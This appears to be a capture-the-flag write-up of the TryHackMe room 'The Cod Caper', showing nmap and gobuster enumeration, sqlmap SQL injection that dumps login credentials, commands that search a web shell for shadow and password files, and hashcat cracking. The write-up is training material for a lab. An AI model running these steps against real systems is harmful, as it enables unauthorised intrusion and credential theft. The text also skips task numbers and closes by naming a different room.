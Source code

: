 # The Cod Caper
> 4lch3my | June 28, 2023
-------------------
#### A guided room taking you through infiltrating and exploiting a Linux system.
#### [Room Link](https://tryhackme.com/room/thecodcaper)

## Tasks 
##### 1. Intro
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>


##### 2. Host Enumeration
To start, I will use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP`
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A uses agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-05-15 23:25 BST
Nmap scan report for ip-10-10-2-173.eu-west-1.compute.internal (10.10.2.173)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:B2:1D:FE:B3:AD (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```

##### 3. Web Enumeration
Time to run gobuster to see what directorys we have on `port 80`. To do this we can run the command:`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/big.txt -x php,html,txt` what will look for common files with the extensions: `php,html,txt`

```
===============================================================
Gobuster v3.0.1
===============================================================
[+] Url:            http://10.10.2.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2023/05/15 23:35:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/administrator.php (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/05/15 23:35:13 Finished
===============================================================
```

##### 4. Web Exploitation

Now, we can use `SQLmap` to locate any SQL files/folders on this machine. To do this, we can run the follwing command: `sqlmap -u http://MACHINE_IP/administrator.php --forms --dump`. The `-u http://MACHINE_IP/administrator.php` option specifies the target URL of the web application. Replace `MACHINE_IP` with the actual IP address or hostname of the machine hosting the web application. The `/administrator.php` represents the specific page or endpoint being targeted for the SQL injection attack. The `--forms` option instructs sqlmap to identify and analyze HTML forms on the target page. And the `--dump` option tells sqlmap to retrieve and dump the data from the database tables that are vulnerable to the SQL injection attack. The tool will attempt to extract sensitive information such as usernames, passwords, and other data stored in the vulnerable database.

```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[*] starting at 23:39:14
[#1] form:
POST http://MACHINE_IP:80/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> yes
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] Y
...
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
...
do you want to exploit this SQL injection? [Y/n] Y
[23:40:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[23:40:08] [INFO] fetching current database
[23:40:08] [INFO] retrieved: users
[23:40:08] [INFO] used SQL query returns 2 entries
[23:40:09] [INFO] fetching entries for table 'users' in database 'users'
[23:40:09] [INFO] retrieved: p******d
[23:40:09] [INFO] retrieved: s********s
Database: users
Table: users
[2 entries]
+------------+------------+
| username   | password   |
+------------+------------+
| s********s | s********s |
| p******d   | p******d   |
+------------+------------+
[*] shutting down at 23:40:09
```

And there we go. We have a found suspected admin username/password pair.

##### 5. Command Execution

Time to log-in. If you recall, we have previously found the "/administrator.php" page in our `GoBuster` scan. Let's visit it and try to login!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/admin_login.PNG?raw=true)

After we have successfully logged in, we are greated with a `command prompt` area.
Let's see, what secrets we can find. First we can run a basic "ls" command to list all files:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/ls.PNG?raw=true)

Nothing interesting here. Moving on to `shadow` files. A shadow password file, also known as `/etc/shadow`, is a system file in Linux that stores encrypted user passwords and is accessible only to the root user, preventing unauthorized users or malicious actors from breaking into the system.
To list these out, we can use the `find / 2>>/dev/null | grep -i shadow` command:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/shadow.PNG?raw=true)

This gives as a good idea, on how high priveledges does Pingu's Dad have on this system. It seems like they have full access. Time to look at some password files on the system.
To start off, we can list all the files on the system containing the phrase `pass` and then if we need, we can narrow it down later. To do this, we run the command `find / 2>>/dev/null | grep -i pass`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/password.PNG?raw=true)

Wow, that is a lot of files, but if we take a very close look at files, we can see at the bottom a document called `/var/hidden/pass`. We can now `cat` this file, to find the ssh password. 

##### 10. SSH & Password Cracking

After the successfull login the server using `SSH` and grabing the password, we can try to crack it. First we need to determine the hash type, what can be done [HERE](https://hashcat.net/wiki/doku.php?id=example_hashes). Then we can actually crack it. We can use `John the Ripper` or `HashCat` for this task. I'll be using the later one: `hashcat -m 1800 -a 0 password_hash1.txt /usr/share/wordlists/rockyou.txt`
When you run this command, hashcat will perform a dictionary attack using the `rockyou.txt` wordlist. It will compare the hashed passwords in the `password_hash1.txt` file with the passwords in the wordlist, attempting to find a match.
If a match is found, hashcat will display the cracked password on the screen. However, if the password hash is strong or not present in the wordlist, the cracking process may not be successful.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/cracked.PNG?raw=true)

And there we go! We have succesfully found the root password for the server!

#### Thank you for checking out my write-up about the THM room: Agent Sudo! If you are interested in other write-ups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my